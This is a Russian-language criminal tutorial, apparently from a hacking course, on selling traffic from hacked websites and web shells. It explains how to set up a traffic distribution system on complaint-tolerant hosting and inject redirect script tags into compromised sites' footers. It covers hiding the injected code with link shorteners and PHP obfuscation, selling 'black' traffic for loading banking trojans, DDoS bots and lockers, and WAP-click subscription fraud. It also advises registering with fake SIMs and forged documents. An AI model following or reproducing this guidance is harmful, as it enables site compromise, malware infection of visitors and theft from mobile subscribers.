








Введение
Рассмотрим тему продажи траффика с админ панелей и веб шелл под нашим управлением.
Что нам необходимо:
- ТДС для распределения траффика
- Партнерские программы
- Виртуальные кошельки для получения выплат с профита (вебмани, киви, яндекс – регистрируем на левые данные)
- Левая симка и сканы левых документов для регистраций
Для начала ознакомься со списком различных гигантов партнерских программ :
- http://ad1.ru/ - гигант по работе с партнерками
- http://jettys.net/ - для заработка на мобильном трафике
- https://kma.biz/ - CPA партнерки
- http://webmasters.leadia.ru/
- http://www.mainlink.ru/ - заработок на продаже ссылок
- http://www.p.pw/ - заработок на сокращенных ссылках, для забугорных юсеров
- https://q32.link/ - сокращенные ссылки для российских юсеров
- http://crazyant.ru/ - работа с трафиком сео – белый трафик
- https://www.admitad.com/ - гигант по работе с партнерками
- http://begun.ru/ - продажа рекламных мест
- https://bongacash.com/ - для работы с порно трафиком
- https://ginads.com/ru/ - продажа мест под баннеры
- http://goldentraff.ru/ - продажа траффика
- http://roi777.com/ - приватная партнерка по выкупу трафика
- http://links.megaindex.ru/ - биржа выкупа ссылок, а так же хороший калькулятор примерного дохода с продаж ссылок на сайте (пользуйся при оценке)
- http://ruiframe.ru/ - выкуп трафика, белый трафф для сео а так же черный трафф - загрузки
- http://smsbill.ru/ - биллинг для платежей (используется при подмене платежей на сайте), так же выкуп подписок известных операторов
- http://websharks.ru/ - монетизация видеотраффика
- http://x-bill.org/ - биллинг для платежей с сайта
Теперь у тебя есть маленькая часть из списка партнерских программ, с которыми ты будешь зарабатывать. Но настоятельно рекомендую зарегистрироваться в агрегатах-гигантах по работе с партнерами. Где ты сможешь ознакомится со всеми видами и вариантами заработка в данной теме при работе с траффиком.
ТДС для распределения траффика
TDS - это система распределения трафика, которая согласно указанным ей правилам перенаправляет запросы. Идея как у маршрутизаторов, которые перенаправляют коннекты в зависимости от таблицы маршрутизации. Итак, TDS из себя представляет веб-панель т.е. это сайт, а сайту нужен хостинг. Проблема заключается в том, что платный абузоустойчивый (это когда на вас жалуются, но хостер не лочит ваш сервак) сервер нам сейчас не нужен, поэтому рассматриваем полностью бюджетный вариант: бесплатная TDS и бесплатный хостинг.
Хостинг.
Хостинг - это панель через которую ты настриваешь сайт на PHP, там же настраивается БД и т.д. Это придумано для тех кто не хочет париться или не умеет настраивать сервер, Apache/nginx и БД в ручную. Пример того как выглядит хостинг панель для настройки сайта

{kind=link}
Тут есть один ньюанс, а заключается он в абузоустойчивости хостинга, потому что занятие это незаконное и админы, когда будут находить ссылки на твою тдс, будут писать жалобу (абузу) твоему хостеру, который как правило примет меры и заблокирует твой сервер и аккаунт тоже. Поэтому надо либо узнавать, либо проверять как хостер относится к жалобам. Я могу лишь порекомендовать хостинг beget.tech, он самый лояльный из мне известных. Имей ввиду, что как только туда хлынет волна новоиспеченных торговцев трафиком, на которых начнут идти множественные жалобы, то результат будет удручающим... Это важно!
Итак, краткий курс начинающего веб-мастера. После регистрации нужно настроить фтп доступ, домен, БД и залить файлы ТДС на сервер. Шаги по настройки панели описывать я не буду. Все делается просто и легко, домен вяжется бесплатный, его будет более чем достаточно. Это тебе пища для ума.
Установка TDS
Зарегал хостинг и привязал ИП, теперь жди обновления базы ДНС и завершения привязки ns серверов. А пока настрой саму TDS.
{kind=link}
{kind=link}
Настройка тдс производится в файле "config.php", каждая строка в нем прокоментирована, так что с этим проблем не возникнет. Самое важное, чтобы ты мог скорее все попробовать, я опишу. На скрине выделено желтым то, что маст-хэв для заполнения. Про имя польователя говорить что то не имеет смысла, пароль в md5, АПИ ключ прописан по умолчанию, желательно конечно все сменить и поставить свое, но я поменял только логин и пароль. "$folder" заполняется относительно папки сайта, у меня ТДСка будет... ну видно где.
{kind=link}
{kind=link}
При смене ключа апи, надо его прописать в "application/api.php" и также там надо сменить домен ТДС. Подробнее о АПИ почитаешь в документации.
{kind=link}
Я все настроил, теперь мне надо это просто залить на сайт. Для аплоадинга файлов на сервер хостер дает доступ по ФТП. Внимательно смотри, как я и говорил сайт я залил в папку которую и указал в конфиге.
{kind=link}
Проверим что все работает. Если все нормально то после авторизации ты увидишь страницу выше. Это так сказать домашняя страница целью которой является добавление группы.
Настройка TDS
TDS установлена и ждет пока ты создашь и настроишь правила перенаправления, с ее помощью ты сможешь легко и просто перенаправлять посетителей взломаных сайтов на нужные тебе партнерки... да в принципе вообще куда угодно сможешь перенаправлять.
Теперь нужно настроить ТДС на слив трафика. А перед этим регнемся на партнерке. Для наглядности.
{kind=link}
Я регнулся на партнерке http://goldentraff.ru, хоть это и не имеет сейчас никакого значения. Партнерка белая, она льет iframe сое-трафик (только РУ и УК), это самый безобидный и дешевый вид трафика.
{kind=link}
В верхнем меню есть кнопка продать, которая перенаправит тебя на страницу с информацией о том, как и куда ты можешь лить трафик на продажу. Тебе отсюда надо забрать только ссылку.
{kind=link}
В меню также есть кнопка трафик, тут отбражается статистика по клиентам и выкупленому трафику. Как видно сейчас тут пусто.
{kind=link}
Посмотрим что будет если перейти по ссылке указанной в скрипте на сайте. Как видишь - ничего.
{kind=link}
А вот в панеле у меня высветелось, что кто то перешел по этой ссылке и трафик этот был выкуплен. Страны которые покупаются были на странице откуда я брал ссылку. Это хорошо, теперь надо пихнуть эту ссылку в ТДС, чтобы система делала редирект на партнерскую ссылку.
{kind=link}
Вернись к ТДС, и добавь новую группу. Где коментарий я указал ссылку, которая будет перенаправлять, это ссылка на тдс, как видно, с параметром внизу "1". Параметр - это идентификатор группы, по нему определяется куда будет редирект. Т.е. таких групп может быть много. Идентификатор и названия должны быть разные, к сожалению, ты сам должен следить за их уникальностью, иначе ТДС перезапишет группу.
{kind=link}
Теперь я могу прописать ссылку на ТДС, именно на группу http://x96903ph.beget.tech/mail/rlock/1, в коде сайта. На данный момент, я сделал это в exampel.php, моя тренировочная ссылка. Это пример, так как лучше всего прописывать в футер сайта, перед закрывающим тегом "</body>" чтобы ссылка работала на всем сайте. В джумле это прописывается в шаблон, в файлах шаблона есть файл index.php в котором реализован код футера.
{kind=link}
Попробовал перейти.
{kind=link}
В статистике видно, что ТДС схватила нашу ссылку.
{kind=link}
Также и в партнерке видно, что трафик пришел. Внизу 2 итема в таблице, смотри внимательно столбец "HTTP-referer". У меня по прямой ссылке на партнерку было 2 перехода, первый куплен второй нет, а выше это как раз трафик с сайта через ТДС, который тоже не выкупили. Внимательно разглядываем столбец "Информация", там описана причина.
- Что дальше?
Дальше увеличивай число захваченых хостов и лей с них трафик распихивая сслыку на ТДС.
Виды трафика
Трафик бывает Белый и Черный.
Белый траффик в основном выкупают вебмастера и сео компании, которые занимаются раскруткой своих, либо чужих проектов и зарабатывают на этом. По сути, им нужен трафик для накрутки посещений сайта и дальнейшего вывода в топ поисковых систем, данного сайта. Именно для этого они выкупают трафик, через партнерские программы. Белый трафик хорош тем, что он безопасен и не приносит вреда пользователю, который обрабатывается нашей тдс. Никакие вредоносные зверьки не будут пытаться прогрузится данному пользователю – лишь скрытые переходы на сторонние сайты. За переходы на которые нам и будут делать начисления. Такой слив траффика живет гораздо дольше, так как не ругаются антивирусы (при плохой крипто обработке троянов и ботов, многие антивири палят и ругаются с уведомлением о попытке прогрузки – это при сливе трафика на чёрные схемки)
Черный трафик выкупают хакеры для своих черных тем. В основном для прогрузки ботов. К примеру Зевс – который крадет банковские реквизиты счета и многое другое. Так же Ддос боты, для совершения ддос атак на сайты под заказ. Такие боты так же крадут пароли и другие данные и умеют загружать и запускать необходимы софт на компьютер жертвы. Ну и конечно, прогрузка локеров (а сейчас, крипто-локеров)
Партнерские программы
Для начала рассмотрим работу по сливу трафика на белую партнерку, на примере GoldenTraff. После регистрации ты попадаешь в понятное меню. Далее переходи в раздел продажи, где будет предложено несколько вариантов для размещения кода на сайте, с которого будешь гнать траффик. Данный код нужен если нет своей ТДС системы. Для ТДС немного видоизменим этот код.
{kind=link}
На картинке виден код для самого простого размещения:
<script language='JavaScript' src='http://sgolden.site/temps.php?i=19673'></script>
Из этого следует, что трафик будет идти напрямую в партнерку, это видно по ссылке http://sgolden.site/temps.php?i=19673. Так вот данный путь нам нужно заменить на путь, который ты получишь при настройке ТДС на своем хостинге.
При использовании ТДС нужно перенаправить трафик на ссылку партнерской программы, которая принимает трафф, то есть направить на тот путь, который ты заменил в коде. Значит в настройках OUT нашей схемы в ТДС укажи путь http://sgolden.site/temps.php?i=тут_будет_ваш_код. Сохрани всё это дело и перейди на сайт, где происходит слив трафика, для проверки отчета на ГолденТрафф, произошла ли запись и отчисление за данного пользователя.
{kind=link}
Теперь таким же образом в схему можно добавить еще один OUT на вторую партнерку, которой занимается Ru iframe. После регистрации, перейди в раздел вебмастера, где ты увидишь три варианта кода. Зеленый, желтый и красный.
{kind=link}
В данном случае, зеленый код для белого трафика, то что покупают сеошники, желтый уже всевозможные редиректы и прогрузки и красный - конкретно прогрузки всякого рода ботов и грязных зверьков. Далее делаем все так же, смотри код
<script language='JavaScript' src='http://finap5.red-code2016.xxuz.com/in.php?i=58'></script>
из которого ты увидишь путь, который необходимо указать для перенаправления трафика в тдс. После всех настроек, можешь гордится, ты начал сливать траффик.
ЧаВо
- А как быстро смогут заметить то что я сливаю траффик?
Это всё зависит от внимательности админа, а так же от того как ты будешь прятать код. В первую очередь, нужно спрятать адрес своей ТДС, чтобы не палить ее и не дать возможность написания жалоб, в следствии чего тебе будет грозить бан на хостинге где расположена ТДС. Так вот чтоб спрятать ТДС, нужно прибегнуть к сервису сокращения ссылок, например вк, сервисов сейчас куча.
- Так где мне спрятать ссылку?
Сократить ссылку можно тут https://vk.com/page-2158488_44000074
Тем самым ты берешь ссылку из схемы тдс, которая выглядит примерно так http://тдс.наш/го.php?i=1, копируешь ее и сокращаешь. В итоге ты должен будешь вставлять код для слива с укароченным путем. Код станет выглядеть как то так:
<script language='JavaScript' src='https://goo.gl/nCcNxA'></script>
Тем самым даже если админ обнаружит эту укароченную ссылку и попытается по ней проити, чтоб посмотреть что там. Он не попадет на тдс, а по падет на обработку схемой тдс и попадет именно туда, куда идет слив трафика. Ты останешься в тени!
Так же рекомендую использование http://wb0.ru/phpobf.php. Инструмент для обфускации PHP-кода позволяет "запутать" код PHP-программы так, что в нем невозможно будет разобраться. Обфускатор убирает из PHP кода все пробелы и комментарии, изменяет имена переменных и функций. Имеется возможность шифрования статических строк, сжатия и архивации скрипта. С помощью данной утилиты ты можешь «криптануть» код для слива трафика, тем самым запутать админа и если он не профессионал, ему придется подумать что это такое вообще.
Мобильный трафик
Мобильный трафик, на сегодняшний день самый востребованный и в основном для черных тем. Сливается он точно так же как и прошлый вариант. Но партнерок, которые будут выкупать твой мобильный трафик для своих черных схем можно найти лишь на соответствующих бордах, так как в открытую таких партнерок не найти. Вот одна из приватных ПП работающая по черной схеме http://roi777.com.
Регистрация лишь по инвайтам, когда у тебя будет на руках уже готовый трафик, не меньше 1000 уникальных посещений в сутки, ты можешь попробовать найти партнера на соответствующих бодах. Оплата в таких партнерских программах идет лишь за пробив, то есть за совершенную загрузку, а не за посещение. Но помимо этого в сети можно найти партнерские программы по платным подпискам.
- Что это такое?







{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
WEB подписки
Наверняка ты встречал в сети ресурсы, где просят ввести номер, для того чтоб ты смог скачать или посмотреть, какую любо информацию - это и есть подписки. Когда ты вводишь свой номер телефона, затем тебе приходит код, который необходимо ввести. Ты вводишь код и совершаете подписку, за которую с твоего мобильного счета будет сниматься определённая сумма, ежедневно \ ежемесячно а я получаю % за то что подписал тебя. Это и есть подписки, но на сегодня все стали умные и не ведутся на данную схему.
WAP подписки
Актуальная схема на сегодня, WAP подписки. Самый прогрессивный на сегодняшний день способ. Серфер попадает на сайт где видит "вкусный контент", у него появляется желание его посмотреть. После клика, серфер видит очень привлекательную страничку (лендинг пейдж). При клике на этой страничке происходит подписка и серфер отправляется в мемберзону исследовать контент. При желании серфер всегда может отписаться.
Данная схема работает так, человек попадает на сайт, красиво оформленный, а сайт этот и есть одна большая кнопка и куда бы он не нажал, он совершает подписку. Не требуется ввода телефона и оправка кодов, все происходит автоматически.
- http://jettys.net/
- http://v2.moblave.com/
Для работы с данными подписками, тдс не требуется. (хотя в дополнение ты можешь установить и слив трафика на ТДС), а для заработка на подписках вставляй дополнительный код. Код, который открывает еще одну страницу, страничку лендинг, где будет принуждение совершить подписку. А точнее где просто нужно нажать на любое место открывшегося сайта.
Так как все данные партнерки приватные, я не могу нарушать кодекс и выкладывать скрипты. Скажу то, что после регистрации в кабинете у тебя будет подробное описание и предоставлены необходимые скрипты для вставки в сайт. Так же для данной схемы, в кабинете тебе будет предоставлена ТДС по работе с трафиком.
Советую долгожителя в данной теме, один из лучших ПП по мобильному трафику http://jettys.net/.
- Многофункциональная биржа подписок, без комиссии
- Подписки по России. Подписки по Украине. Подписки по Азербайджану. Беларусь, Украина, Таджикистан, Киргизия: Псевдоподписки!
- WapClick Мегафон
- Мобильная коммерция, Псевдоподписки, Подписки, SMS
- Качественные WAP-платники: дейтинг, адалт, гороскопы ...
- Качественные WEB-платники на более чем 30 тематик (От Знакомств до Решебников и ГДЗ)
- TDS для WAP трафа, гибкая настройка тарифов
- Отчисления от 85% до 95% от прибыли с смс/псевдо/подписок/мк
Так же для себя ты можешь посмотреть http://aff1.ru/mobilnye-partnerki. Почитать информацию о различных мобильных партнерках. Про них рассказывать вести не буду, так как это подходит для заработка на собственных мобильных сайтах, со взломанными сайтами это не провернуть. По причине видемости. Так что вперед на хак форумы, регистрируйся и находи себе приватных партнеров для заработка на мобилках.